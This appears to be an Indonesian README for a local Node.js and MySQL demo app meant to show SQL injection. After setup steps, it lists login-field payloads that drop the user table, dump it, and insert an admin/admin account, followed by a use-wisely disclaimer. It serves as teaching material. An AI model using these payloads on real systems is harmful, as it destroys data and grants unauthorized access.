 # PRE-REQUISITE

- nodejs terinstall
- database mysql terinstall
- extension live server terinstall di code editor (aku pakai vscode)

# INSTALL DEPENDENCY

- buka terminal / command prompt
- lakukan perintah `npm install`
- import database ddos_test.sql ke mysql

# RUN SERVER

- buka terminal / command prompt
- lakukan perintah `npm run dev`
- pastikan port 3000 terbuka (running)

# RUN CLIENT

- masuk ke browser
- ketik `localhost:3000/login`

## CONTOH FIELD INPUT UNTUK MELAKUKAN SERANGAN SQL INJECTION

<!-- ini untuk menghapus table -->

- ### drop tabel
  email: `'; DROP TABLE user; --`
  password: `'; DROP TABLE user; --`

<!-- ini untuk melihat isi table -->

- ### melihat isi tabel
  email: `'; SELECT _ FROM user; --`
  password: `'; SELECT _ FROM user; --`

<!-- ini untuk menambahkan data ke table -->

- ### memasukan data
  email: `'; INSERT INTO user (email, password) VALUES ('admin', 'admin'); --`
  password: `'; INSERT INTO user (email, password) VALUES ('admin', 'admin'); --`

# NOTE!!!

- ### ini hanyalah demonstrasi
- ### tolong gunakan ilmu ini dengan bijak

- ### jangan sembarang melakukan serangan sql injection

### jika ada pertanyaan bisa japri ke watsapp/instagram ("@as.sidik\_")

# TERIMAKASIH SEMOGA BERMANFAAT :(

# SUKSES SEHAT SELALU ya teman-teman
